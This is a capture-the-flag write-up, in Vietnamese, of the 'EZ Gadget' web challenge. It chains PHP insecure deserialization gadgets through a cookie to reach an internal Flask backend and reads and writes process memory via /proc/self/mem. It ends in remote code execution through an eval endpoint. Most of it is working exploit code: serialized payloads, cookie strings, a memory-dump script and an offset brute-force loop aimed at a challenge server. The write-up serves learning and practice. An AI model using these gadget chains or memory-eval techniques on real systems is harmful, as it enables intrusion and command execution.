



## EZ Gadget

Bài này tuy tên EZ nhưng mà mình debug rất nhiều mới ra flag :))

### Source

https://uithcm-my.sharepoint.com/:u:/g/personal/24522045_ms_uit_edu_vn/EUU9lO522elAgwIbo0q-80QBt8-Wygheux-MIetRVXadSQ?e=1n1Ww8

### Hints

Insecure deserialization, gadget chains, process memory

### Solution

Ok thì các bước để làm được bài này là như sau : 

* Tạo serialized object để thực hiện proxy pass
* Vào internal/debug của backend để print flush lệnh RCE vào bộ nhơ
* Vào internal/read của backend để đọc file /proc/self/maps từ đó biết được vùng bộ nhớ đang chứa output của lệnh print trên
* Vào internal/eval để thực hiện lệnh được lưu trong bộ nhớ trên bằng eval

#### Tạo serialized object để thực hiện proxy pass

Đầu tiên ta thấy để làm được gì đó liên quan đến flag thì phải thông qua backend và mình tháy có một file Proxy như sau

<details>

<summary>ProxyImpl.inc.php</summary>
    
```php
<?php 

if (!defined("INTERNAL_INCLUDING")) die("Internal class cannot be required by normal app functions!");

if (!class_exists("ProxyImpl")) {
    class ProxyImpl {
        private $url = "http://back-end:3000";
        private $method = "GET";
        private $headers = [];
        private $data = "";
    
        public function __construct($url = "", $method = "GET", $headers=[], $data="") {
            $this->url = $url;
            $this->method = $method;
            $this->headers = $headers;
            $this->data = $data;
        }
    
        public function __destruct() {
            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $this->url.'/garbage_collect');
            curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
            if ($this->method !== "GET") {
                curl_setopt($ch, CURLOPT_POST, true);
                if ($this->data) {
                    curl_setopt($ch, CURLOPT_POSTFIELDS, $this->data);
                }
            } 
            if (count($this->headers)) {
                curl_setopt($ch, CURLOPT_HTTPHEADER, $this->headers);
            }
            echo "DESTRUCTING";
            echo curl_exec($ch);
            curl_close($ch);
        }
    }
}

?>
```

</details>

Để chạy được lệnh __destruct của file thì phải có 2 điều kiện là phải define "INTERNAL_INCLUDING" và file này phải được import

Khi đó mình ngó qua file Utils và thấy một điều khá sú

<details>

<summary>Utils.inc.php</summary>
    
```php 
<?php
if (!defined("APP_INCLUDING")) die("File can't be directly accessed!");

class Utils {
    private $_cleanup_func = null;
    private $_cleanup_func_args = [];
    public $should_garbage_once_done = false;


    public static function pagination($file_name) {
        $title = '';
        $content = '';
        if (!empty($file_name)) {
            include __DIR__.'/'.basename($file_name).'.inc.php';
        } else {
            include __DIR__.'/home.inc.php';
        }
        
        return array($title, $content);
    }

    public function __destruct()
    {
        if ($this->should_garbage_once_done) {
            if (isset($this->_cleanup_func)) {
                if (is_string($this->_cleanup_func)) {
                    if (str_contains($this->_cleanup_func, "require") || str_contains($this->_cleanup_func, "include")) {
                        die("how would including another script collect the garbage???");
                    }
                } 
                call_user_func($this->_cleanup_func, ...$this->_cleanup_func_args);
            }
        }
        
    }
}

?>
```

</details>

Ở đây có hàm __destruct dùng để call một function nào đó nhưng lại cấm require và include làm mình xác nhận hướng giải của mình là đúng. Chúng ta có thể sử dụng call_user_func để gọi hàm define và bypass qua điều kiện 1. Nhìn lại thì hàm pagination lại sử dụng filename truyền vào để include và mình nghĩ ngay việc sử dụng hàm này để bypass cho điều kiện 2.

Từ đó mình đã có hướng giải như sau tạo một object Utils để call_user_func hàm define -> tạo một object Utils để call_user_func hàm pagination -> tạo một object ProxyImpl để gọi hàm __destruct và proxy pass

Ok thì lúc này mình đọc lại file index.php và thấy một hàm sau 

<details>

<summary>index.php</summary>
    
```php
<?php 
define("APP_INCLUDING", true);
include 'inc/Utils.inc.php';

$utils = new Utils();
list($title, $content) = $utils->pagination($_GET['page']);

if (isset($_COOKIE['app_cookies'])) {
    $json = json_decode($_COOKIE['app_cookies']);
    if (is_array($json)) {
        foreach ($json as $key => $val) {
          $data[$key] = @unserialize(base64_decode($val->data));
            if ($val->expire_time <= time()) {
              $data[$key]->__destruct();
            }
        }
    }
}

?>
```
</details>

Tóm tắt thì đoạn code sẽ lấy cookie là app_cookies để json_decode thành một mảng, từ mảng sẽ check expire_time nếu nhỏ hơn thời gian hiện tại sẽ tiến hành gọi __destruct của `@unserialize(base64_decode($val->data))`


Từ đó mình có thể thực hiện bước 1 qua object serialization như sau
  
 <details>
  
<summary>solve1.php</summary>
    
```php
<?php

class Utils {
    private $_cleanup_func = "define";
    private $_cleanup_func_args = ['INTERNAL_INCLUDING', true];
    public $should_garbage_once_done = false;


    public static function pagination($file_name) {
        $title = '';
        $content = '';
        if (!empty($file_name)) {
            include __DIR__.'/'.basename($file_name).'.inc.php';
        } else {
            include __DIR__.'/home.inc.php';
        }
        
        return array($title, $content);
    }

    public function set_cleanup_func($a){
        $this->_cleanup_func=$a;
    }

    public function set_cleanup_func_args($a){
        $this->_cleanup_func_args=$a;
    }

    public function __destruct()
    {
        if ($this->should_garbage_once_done) {
            if (isset($this->_cleanup_func)) {
                if (is_string($this->_cleanup_func)) {
                    if (str_contains($this->_cleanup_func, "require") || str_contains($this->_cleanup_func, "include")) {
                        die("how would including another script collect the garbage???");
                    }
                }
                call_user_func($this->_cleanup_func, ...$this->_cleanup_func_args);
            }
        }
        
    }
}

class A{
    
};

$a = new Utils;
$a -> should_garbage_once_done = 1;

$a1 = new A;
$a1 -> expire_time = 1;
$a1 -> data = base64_encode(serialize($a));

$arr = [$a1];

$arr_json_encode = json_encode($arr);

echo "Asnwer : ".$arr_json_encode."\n";

$ans = $arr_json_encode;

?>
```

</details>

Khi chạy thì ta có đoạn app_cookies như sau


Code python để gửi request đến web 

<details>

<summary>solve1.py</summary>
    
```python
import requests

cookies = {"app_cookies" : '[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="}]'}

x = requests.get("http://127.0.0.1:8081", cookies=cookies)

print(x.text)
```

</details>

Có thể thấy khi chạy thì bên docker báo là INTERNAL_INCLUDING đã được define, điều này do khi expire_time < time hiện tại thì sẽ gọi __destruct cộng thêm việc __destruct tự gọi sau khi chương trình kết thúc nên tổng cộng là gọi 2 lần nên khi chạy sẽ Warning. Nhưng điều quan trọng là ta đã thực hiện insecure deserialization thành công.


Từ đó mình xây dụng Object serialization cho bước 2 và 3 và ta có đoạn php sau


<details>
    
<summary>solve2.php</summary>
    
```php
<?php

class Utils {
    private $_cleanup_func = "define";
    private $_cleanup_func_args = ['INTERNAL_INCLUDING', true];
    public $should_garbage_once_done = false;


    public static function pagination($file_name) {
        $title = '';
        $content = '';
        if (!empty($file_name)) {
            include __DIR__.'/'.basename($file_name).'.inc.php';
        } else {
            include __DIR__.'/home.inc.php';
        }
        
        return array($title, $content);
    }

    public function set_cleanup_func($a){
        $this->_cleanup_func=$a;
    }

    public function set_cleanup_func_args($a){
        $this->_cleanup_func_args=$a;
    }

    public function __destruct()
    {
        if ($this->should_garbage_once_done) {
            if (isset($this->_cleanup_func)) {
                if (is_string($this->_cleanup_func)) {
                    if (str_contains($this->_cleanup_func, "require") || str_contains($this->_cleanup_func, "include")) {
                        die("how would including another script collect the garbage???");
                    }
                }
                call_user_func($this->_cleanup_func, ...$this->_cleanup_func_args);
            }
        }
        
    }
}

class ProxyImpl {
    private $url = "http://back-end:3000";
    private $method = "GET";
    private $headers = [];
    private $data = "";

    public function __construct($url = "", $method = "GET", $headers=[], $data="") {
        $this->url = "http://back-end:3000";
        $this->method = $method;
        $this->headers = $headers;
        $this->data = $data;
    }

    public function __destruct() {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url.'/garbage_collect');
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        if ($this->method !== "GET") {
            curl_setopt($ch, CURLOPT_POST, true);
            if ($this->data) {
                curl_setopt($ch, CURLOPT_POSTFIELDS, $this->data);
            }
        } 
        if (count($this->headers)) {
            curl_setopt($ch, CURLOPT_HTTPHEADER, $this->headers);
        }
        echo "DESTRUCTING";
        echo curl_exec($ch);
        curl_close($ch);
    }
}

class A{
    
};

$a = new Utils;
$a -> should_garbage_once_done = 1;

$a1 = new A;
$a1 -> expire_time = 1;
$a1 -> data = base64_encode(serialize($a));

$a -> set_cleanup_func(__NAMESPACE__.'\Utils::pagination');
$a -> set_cleanup_func_args(['ProxyImpl']);

$a2 = new A;
$a2 -> expire_time = 1;
$a2 -> data = base64_encode(serialize($a));

$b = new ProxyImpl();
$b -> should_garbage_once_done = 1;

$a3 = new A;
$a3 -> expire_time = 1;
$a3 -> data = base64_encode(serialize($b));

$arr = [$a1, $a2, $a3];

$arr_json_encode = json_encode($arr);

echo "Asnwer : ".$arr_json_encode."\n";

$ans = $arr_json_encode;

?>
```
    
</details>

Khi chạy thì ta đã vào được backend của web và reach được /garbage_collect 


Ok vậy là đã hoàn thành bước 1

#### Vào internal/debug của backend để print flush lệnh RCE vào bộ nhơ

Vấn đề phát sinh 

Trong ProxyImpl.inc.php ta nhìn lại thì URL truyền vào sẽ được nối với "/garbage_collect" nên mình không thể vào endpoint khác theo cách thông thường

```php

public function __construct($url = "", $method = "GET", $headers=[], $data="") {
    $this->url = $url;
    $this->method = $method;
    $this->headers = $headers;
    $this->data = $data;
}

public function __destruct() {
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $this->url.'/garbage_collect');
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    if ($this->method !== "GET") {
        curl_setopt($ch, CURLOPT_POST, true);
        if ($this->data) {
            curl_setopt($ch, CURLOPT_POSTFIELDS, $this->data);
        }
    } 
    if (count($this->headers)) {
        curl_setopt($ch, CURLOPT_HTTPHEADER, $this->headers);
    }
    echo "DESTRUCTING";
    echo curl_exec($ch);
    curl_close($ch);
}
```

Từ đây mình có ý tưởng sẽ biến "/garbage_collect" thành query param. How???

Chúng ta có thể sử dụng "?" từ đó vào được các endpoint khác với /garbage_collect là một param

<details>
    
<summary>solve3.php</summary>
    
```php
<?php

class Utils {
    private $_cleanup_func = "define";
    private $_cleanup_func_args = ['INTERNAL_INCLUDING', true];
    public $should_garbage_once_done = false;


    public static function pagination($file_name) {
        $title = '';
        $content = '';
        if (!empty($file_name)) {
            include __DIR__.'/'.basename($file_name).'.inc.php';
        } else {
            include __DIR__.'/home.inc.php';
        }
        
        return array($title, $content);
    }

    public function set_cleanup_func($a){
        $this->_cleanup_func=$a;
    }

    public function set_cleanup_func_args($a){
        $this->_cleanup_func_args=$a;
    }

    public function __destruct()
    {
        if ($this->should_garbage_once_done) {
            if (isset($this->_cleanup_func)) {
                if (is_string($this->_cleanup_func)) {
                    if (str_contains($this->_cleanup_func, "require") || str_contains($this->_cleanup_func, "include")) {
                        die("how would including another script collect the garbage???");
                    }
                }
                call_user_func($this->_cleanup_func, ...$this->_cleanup_func_args);
            }
        }
        
    }
}

class ProxyImpl {
    private $url = "http://back-end:3000";
    private $method = "GET";
    private $headers = [];
    private $data = "";

    public function __construct($url = "", $method = "GET", $headers=[], $data="") {
        $this->url = "http://back-end:3000?";
        $this->method = $method;
        $this->headers = $headers;
        $this->data = $data;
    }

    public function __destruct() {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url.'/garbage_collect');
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        if ($this->method !== "GET") {
            curl_setopt($ch, CURLOPT_POST, true);
            if ($this->data) {
                curl_setopt($ch, CURLOPT_POSTFIELDS, $this->data);
            }
        } 
        if (count($this->headers)) {
            curl_setopt($ch, CURLOPT_HTTPHEADER, $this->headers);
        }
        echo "DESTRUCTING";
        echo curl_exec($ch);
        curl_close($ch);
    }
}

class A{
    
};

$a = new Utils;
$a -> should_garbage_once_done = 1;

$a1 = new A;
$a1 -> expire_time = 1;
$a1 -> data = base64_encode(serialize($a));

$a -> set_cleanup_func(__NAMESPACE__.'\Utils::pagination');
$a -> set_cleanup_func_args(['ProxyImpl']);

$a2 = new A;
$a2 -> expire_time = 1;
$a2 -> data = base64_encode(serialize($a));

$b = new ProxyImpl();
$b -> should_garbage_once_done = 1;

$a3 = new A;
$a3 -> expire_time = 1;
$a3 -> data = base64_encode(serialize($b));

$arr = [$a1, $a2, $a3];

$arr_json_encode = json_encode($arr);

echo "Asnwer : ".$arr_json_encode."\n";

$ans = $arr_json_encode;

?>  
```

</details>


Có thể thấy khi chạy thì nó sẽ reach / và chúng ta đã thành công.

Từ đây ta có thể bật debug qua internal/debug như sau

<details>
    
<summary>solve4.php</summary>
    
```php
<?php

class Utils {
    private $_cleanup_func = "define";
    private $_cleanup_func_args = ['INTERNAL_INCLUDING', true];
    public $should_garbage_once_done = false;


    public static function pagination($file_name) {
        $title = '';
        $content = '';
        if (!empty($file_name)) {
            include __DIR__.'/'.basename($file_name).'.inc.php';
        } else {
            include __DIR__.'/home.inc.php';
        }
        
        return array($title, $content);
    }

    public function set_cleanup_func($a){
        $this->_cleanup_func=$a;
    }

    public function set_cleanup_func_args($a){
        $this->_cleanup_func_args=$a;
    }

    public function __destruct()
    {
        if ($this->should_garbage_once_done) {
            if (isset($this->_cleanup_func)) {
                if (is_string($this->_cleanup_func)) {
                    if (str_contains($this->_cleanup_func, "require") || str_contains($this->_cleanup_func, "include")) {
                        die("how would including another script collect the garbage???");
                    }
                }
                call_user_func($this->_cleanup_func, ...$this->_cleanup_func_args);
            }
        }
        
    }
}

class ProxyImpl {
    private $url = "http://back-end:3000";
    private $method = "GET";
    private $headers = [];
    private $data = "";

    public function __construct($url = "", $method = "GET", $headers=[], $data="") {
        $this->url = "http://back-end:3000/internal/debug?";
        $this->method = "POST";
        $this->headers = $headers;
        $this->data = ["msg" => "abc"];
    }

    public function __destruct() {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url.'/garbage_collect');
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        if ($this->method !== "GET") {
            curl_setopt($ch, CURLOPT_POST, true);
            if ($this->data) {
                curl_setopt($ch, CURLOPT_POSTFIELDS, $this->data);
            }
        } 
        if (count($this->headers)) {
            curl_setopt($ch, CURLOPT_HTTPHEADER, $this->headers);
        }
        echo "DESTRUCTING";
        echo curl_exec($ch);
        curl_close($ch);
    }
}

class A{
    
};

$a = new Utils;
$a -> should_garbage_once_done = 1;

$a1 = new A;
$a1 -> expire_time = 1;
$a1 -> data = base64_encode(serialize($a));

$a -> set_cleanup_func(__NAMESPACE__.'\Utils::pagination');
$a -> set_cleanup_func_args(['ProxyImpl']);

$a2 = new A;
$a2 -> expire_time = 1;
$a2 -> data = base64_encode(serialize($a));

$b = new ProxyImpl();
$b -> should_garbage_once_done = 1;

$a3 = new A;
$a3 -> expire_time = 1;
$a3 -> data = base64_encode(serialize($b));

$arr = [$a1, $a2, $a3];

$arr_json_encode = json_encode($arr);

echo "Asnwer : ".$arr_json_encode."\n";

$ans = $arr_json_encode;

?>
```

</details>

And yeah we finally did it


#### Vào internal/read của backend để đọc file /proc/self/maps 

Bây giờ chúng ta đã qua được backend nên mình sẽ phân tích cách đọc flag 

<details>
    
<summary>app.py</summary>
    
```python
from flask import Flask, request

app = Flask(__name__)

@app.route("/garbage_collect")
def garbage_collect():
    return "Garbage collected"

@app.route("/internal/eval", methods = ['POST', 'GET'])
def internal_eval():
    # evaluating a files with a punch of garbage is painful? i will let you choose which location 
    # to start and how many bytes to evaluate

    if "file" in request.form.keys() and "offset" in request.form.keys() and "length" in request.form.keys():
        with open(request.form["file"], "rb") as f:
            f.seek(int(request.form["offset"], 16))
            data = f.read(int(request.form["length"]))
            print(b"eval: " + data)
            data = data.decode()
            return eval(data)
    return "ERROR"

@app.route("/internal/read", methods = ['POST', 'GET'])
def internal_read():
    return open(request.form["file"]).read()

@app.route("/internal/debug", methods = ['POST', 'GET'])
def internal_debug():
    print(request.form["msg"], flush=True)
    return "for debug only.... or is it?"

app.run("0.0.0.0", 3000)
```

</details>

Đầu tiên có thể thấy hàm internal_eval sẽ đọc một file nào đó và lấy một đoạn dựa theo offset và length để eval

Nhưng mà làm gì có file nào cho ta eval được file /read_flag ?

Từ đây mình mới đọc hàm internal_debug và thấy return là "for debug only..." và mình mới biết là các giá trị khi print sẽ được lưu vào /proc/self/mem

Giả dụ ta host một server backend y chang vậy và sử dụng curl để print flush như sau


Sử dụng đoạn code sau để dump file mem của server này về

```py
import re
maps_file = open("/proc/$PID/maps", 'r')
mem_file = open("/proc/$PID/mem", 'rb', 0)
output_file = open("$PID.dump", 'wb')
for line in maps_file.readlines():
    m = re.match(r'([0-9A-Fa-f]+)-([0-9A-Fa-f]+) ([-r])', line)
    print(line)
    print(m.group(3))
    if m.group(3) == 'r':
        start = int(m.group(1), 16)
        end = int(m.group(2), 16)
        mem_file.seek(start)
        chunk = mem_file.read(end - start)
        output_file.write(chunk)
maps_file.close()
mem_file.close()
output_file.close()
```

Trong đó $PID là pid của proccess python đang được sử dụng

Khi dump ra thì ta tìm được msg đã print flush khi nãy



Ok thì bây giờ ta đã biết được file để eval nhung còn offset và length ???

Có thể thấy length là length của đoạn eval mình sẽ thực hiện nên mình không phải lo

Nhưng còn offset là một câu chuyện khác chủng ta sẽ tiếp tục phân tích

#### Vào internal/eval để thực hiện lệnh được lưu trong bộ nhớ trên bằng eval

Ok thì để eval thì ta cần một lệnh linux cụ thể là /read_flag. Ở đây mình sử dụng `/read_flag > ~/b` để lấy flag ra ngoài file b, ngoài ra có thể sử dụng webhook để lấy 

Ok thì như trên mình có thể sử dụng Object serialize để truyển vào lệnh để eval như sau

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

#debug
cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:36:"http://back-end:3000/internal/debug?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:3:"msg";s:'+str(len(cmd_to_run))+':"'+cmd_to_run+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://127.0.0.1:8081/", cookies=cookie)
print(x.text)
```


File mem trên được chia thành nhiều thread và ta có thể đọc được thông qua file /proc/mem/maps



Ok thì mình chắc chắn msg nằm trong những thread này nên mình có thể brute force xem nó nằm ở thread nào 

```python
with open("/proc/$PID/maps", "r") as f:
    f=f.read().splitlines()
    for i in f:
        thr = i.split('-')[0]
        try:
            with open("/proc/$PID/mem", "rb") as g:
                g.seek(int(thr, 16))
                if (b"exec('import os" in g.read(1000001)):
                    print(thr)
        except:
            pass
```


Có thể thấy thread ta cần xài là phần đầu của heap



Ok thì bây giờ ta đã biết được thread cần sử dụng nhưng offset thì chưa biết 

Sau khi debug nhiều lần thì mình phát hiện msg chỉ xuất hiện ở offset 470000-530000 thôi nên mình có thể brute force đơn giản

Ok và sau khi thực hiện lại các bước trên trên chal web thì mình chạy đoạn python này để brute

```python
import requests
import base64

cmd_to_run = 'exec(\'import os;os.system("/read_flag > ~/b")\')'

h = "63060d997000"

for j in range(470000, 530000):

    k = str(hex(int(h, 16) + j)).replace("0x", "")

    cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/eval?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:3:{s:4:"file";s:14:"/proc/self/mem";s:6:"offset";s:'+str(len(k))+':"'+k+'";s:6:"length";s:'+str(len(str(len(cmd_to_run))))+':"'+str(len(cmd_to_run))+'";}}'

    cmd = cmd.encode()

    cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

    x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
    print(j)
```

Phân tích : 

* Ta cần eval đoạn cmd_to_run mà ta đã thực hiện trước đó
* Với h = "63060d997000" là phần đầu heap mình cần đọc để cắt ra cmd_to_run mà ta đã lấy trước đó

Chúng ta có thể sử dụng đoạn sau để serialization và đọc file /proc/self/maps

```python
import requests
import base64

file = "/proc/self/maps"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
print(x.text)
```


* offset sẽ chạy từ 470000 đến 530000 với mỗi offset sẽ đọc len(cmd_to_run) kí tự, nếu lệnh đó được thực thi thì chắc chắn đó là cmd_to_run mà ta truyền vào

* Khi lệnh được thực thi thì ở thư mục home chúng ta có một file b chứa flag

Nhiệm vụ của ta chỉ là đọc nó bằng internal/read thui

```python
import requests
import base64

file = "/home/shin24/b"

cmd = 'O:9:"ProxyImpl":4:{s:14:"\x00ProxyImpl\x00url";s:35:"http://back-end:3000/internal/read?";s:17:"\x00ProxyImpl\x00method";s:4:"POST";s:18:"\x00ProxyImpl\x00headers";a:0:{}s:15:"\x00ProxyImpl\x00data";a:1:{s:4:"file";s:'+str(len(file))+':"'+file+'";}}'

cmd = cmd.encode()

cookie = {'app_cookies':'[{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6NjoiZGVmaW5lIjtzOjI1OiIAVXRpbHMAX2NsZWFudXBfZnVuY19hcmdzIjthOjI6e2k6MDtzOjE4OiJJTlRFUk5BTF9JTkNMVURJTkciO2k6MTtiOjE7fXM6MjQ6InNob3VsZF9nYXJiYWdlX29uY2VfZG9uZSI7aToxO30="},{"expire_time":1,"data":"Tzo1OiJVdGlscyI6Mzp7czoyMDoiAFV0aWxzAF9jbGVhbnVwX2Z1bmMiO3M6MTg6IlxVdGlsczo6cGFnaW5hdGlvbiI7czoyNToiAFV0aWxzAF9jbGVhbnVwX2Z1bmNfYXJncyI7YToxOntpOjA7czo5OiJQcm94eUltcGwiO31zOjI0OiJzaG91bGRfZ2FyYmFnZV9vbmNlX2RvbmUiO2k6MTt9"},{"expire_time":1,"data":"'+base64.b64encode(cmd).decode()+'"}]'}

x = requests.get("http://4.216.196.42:1337/", cookies=cookie)
print(x.text)
```

Và chúng ta đã lấy được flag


